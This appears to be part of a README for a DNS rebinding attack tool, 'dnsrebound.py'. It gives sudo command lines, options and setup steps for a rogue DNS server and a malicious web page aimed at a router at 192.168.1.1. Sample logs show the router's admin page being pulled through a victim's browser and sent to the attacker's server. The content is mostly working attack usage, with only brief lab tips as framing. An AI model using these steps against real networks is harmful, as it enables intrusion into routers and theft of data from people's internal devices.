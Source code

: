 ### Basic Usage
Start a DNS rebinding attack targeting a router:
```bash
sudo python3 dnsrebound.py -i eth0 -d rebind.local -t 192.168.1.1
```

Specify a custom public IP:
```bash
sudo python3 dnsrebound.py -i eth0 -d rebind.local -p 203.0.113.1 -t 192.168.1.1
```

### Options
- `-i, --interface`: Network interface (e.g., `eth0`, required).
- `-d, --domain`: Domain for rebinding (e.g., `rebind.local`, required).
- `-p, --public-ip`: Public IP (default: auto-detected).
- `-t, --target-ip`: Target internal IP (default: `192.168.1.1`).
- `--dns-port`: DNS server port (default: 53).
- `--web-port`: Web server port (default: 80).
- `-q, --quiet`: Run quietly (logs to file only).

### Using Each Feature

#### 1. Running the DNS and Web Servers
**What It Does**: Starts a DNS server to alternate between public and internal IPs and a web server to serve a malicious webpage.
**How to Use**:
1. Find your network interface (e.g., `ip link`).
2. Edit `malicious.html` to set `REBIND_DOMAIN` to your domain (e.g., `rebind.local`).
3. Run:
   ```bash
   sudo python3 dnsrebound.py -i eth0 -d rebind.local -t 192.168.1.1
   ```
4. Configure a test device to use your machine’s IP as the DNS server (e.g., set DNS to your `eth0` IP in a VM).
5. Visit `http://rebind.local` in a browser on the test device.
**What Happens**:
- The DNS server responds with the public IP first, then the target IP:
  ```
  2025-05-15 10:30:00 - Starting DNSRebound: Domain=rebind.local, Public IP=203.0.113.1, Target IP=192.168.1.1
  2025-05-15 10:30:01 - DNS server started on port 53
  2025-05-15 10:30:01 - Web server started on port 80
  2025-05-15 10:30:02 - DNS: rebind.local -> 203.0.113.1 (Request #1)
  2025-05-15 10:30:03 - Web: Served malicious.html to 192.168.1.100
  2025-05-15 10:30:04 - DNS: rebind.local -> 192.168.1.1 (Request #2)
  2025-05-15 10:30:05 - Web: Received data from 192.168.1.100: Attempt 1: <html><title>Router Admin</title>...
  ```
- Results file example (`dnsrebound_results_20250515_103005.txt`):
  ```
  [2025-05-15 10:30:05] Data from 192.168.1.100:
  Attempt 1: <html><title>Router Admin</title>...
  --------------------------------------------------
  ```
**Tips**:
- Use a common router IP like `192.168.1.1` for testing.
- Test with a VM or device in your lab to simulate a victim.
- Ensure port 53 (DNS) and 80 (HTTP) are open (`sudo netstat -tuln`).
